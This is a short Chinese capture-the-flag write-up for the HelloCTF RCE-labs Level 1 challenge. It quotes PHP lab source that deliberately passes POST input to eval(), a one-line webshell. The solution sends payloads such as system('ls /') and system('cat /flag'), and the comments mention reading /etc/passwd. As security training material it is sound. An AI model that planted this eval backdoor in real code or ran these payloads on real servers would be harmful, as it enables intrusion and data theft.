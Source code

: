 打开靶机就发现了flag

### [RCE-labs]Level 1 - 一句话木马和代码执行
```python
<?php 
include ("get_flag.php");
/*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : 一句话木马和代码执行 --- 

「代码执行(Code Execution)」 在某个语言中，通过一些方式(通常为函数或者方法调用)执行该语言的任意代码的行为，如PHP中的`eval()`函数或Python中的`exec()`函数。

当漏洞入口点可以执行任意代码时，我们称其为代码执行漏洞 —— 这种漏洞包含了通过语言中对接系统命令的函数来执行系统命令的情况，比如 eval("system('cat /etc/passwd')";); 也被归为代码执行漏洞。

我们平时最常见的一句话木马就用的 eval() 函数，如下所示（一般情况下，为了接收更长的Payload，我们一般对可控参数使用POST传参）

try POST:
    a=echo "Hello,World!";
*/

eval($_POST['a']);

highlight_file(__FILE__);

?>
```

通过代码审计和题目提示 存在eval函数 可以进行恶意命令执行和一句话木马连接 所以有两种解法

#### 第一种解法
利用system函数进行恶意命令执行

```python
a=system('ls /');          //利用hackbar以post方式上传参数
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736952533877-65f95cad-160b-4d89-b5ba-3fcafdb37d88.png)

发现flag文件 cat来读取flag

```python
a=system('cat /flag'); 
```

发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736952632292-1509a4ab-cdad-4c65-92ba-24533f1fd7c0.png)
